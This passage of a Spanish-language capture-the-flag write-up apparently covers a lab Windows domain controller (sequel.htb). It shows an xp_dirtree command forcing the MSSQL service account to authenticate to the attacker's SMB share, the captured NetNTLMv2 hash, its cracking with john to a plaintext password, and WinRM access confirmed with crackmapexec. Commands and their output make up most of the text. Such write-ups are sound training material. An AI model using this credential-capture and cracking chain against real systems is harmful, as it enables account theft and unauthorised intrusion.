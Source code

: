 <h2>INTRUSIÓN</h2>

Buscando por comandos que no deberíamos poder usar encontramos el `xp_dirtree`

{% highlight bash %}
SQL (PublicUser  guest@master)> xp_dirtree
subdirectory   depth   file   
------------   -----   ----   
{% endhighlight %}

Con esto podemos ver archivos de la máquina, asi como ver recursos SMB externos, y un recurso SMB externo al ser cargado mediante esta forma, normalmente hace que el usuario se intente autenticar con sus credenciales automáticamente...

Si nos creamos un recurso SMB e intentamos listarlo con el comando que encontramos, pues

{% highlight bash %}
SQL (PublicUser  guest@master)> xp_dirtree \\10.10.16.4\uwu
{% endhighlight %}

{% highlight bash %}
Impacket v0.10.1.dev1+20230616.115447.d1f16d8e - Copyright 2022 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.11.202,51100)
[*] AUTHENTICATE_MESSAGE (sequel\sql_svc,DC)
[*] User DC\sql_svc authenticated successfully
[*] sql_svc::sequel:aaaaaaaaaaaaaaaa:6f6a4a7d7965cff1887f2a7835eec187:...
[*] Closing down connection (10.10.11.202,51100)
{% endhighlight %}

Estuvo algo sencillo pero bueno, este hash podemos intentar crackearlo y obtener la contraseña del usuario; por suerte no nos toma mucho hacerlo

{% highlight bash %}
❯ john -w=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hash
Warning: detected hash type "netntlmv2", but the string is also recognized as "ntlmv2-opencl"
Use the "--format=ntlmv2-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
REGGIE1234ronnie (sql_svc)
1g 0:00:00:06 DONE (2023-06-19 18:07) 0.1512g/s 1618Kp/s 1618Kc/s 1618KC/s RENZOH..REDMAN36
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
{% endhighlight %}

Viendo los permisos de este usuarios, ¡descubrimos que tiene acceso a WinRM!

{% highlight bash %}
❯ cme winrm 10.10.11.202 -u "sql_svc" -p "REGGIE1234ronnie"
SMB         10.10.11.202    5985   DC               [*] Windows 10.0 Build 17763 (name:DC) (domain:sequel.htb)
HTTP        10.10.11.202    5985   DC               [*] http://10.10.11.202:5985/wsman
WINRM       10.10.11.202    5985   DC               [+] sequel.htb\sql_svc:REGGIE1234ronnie (Pwn3d!)
{% endhighlight %}
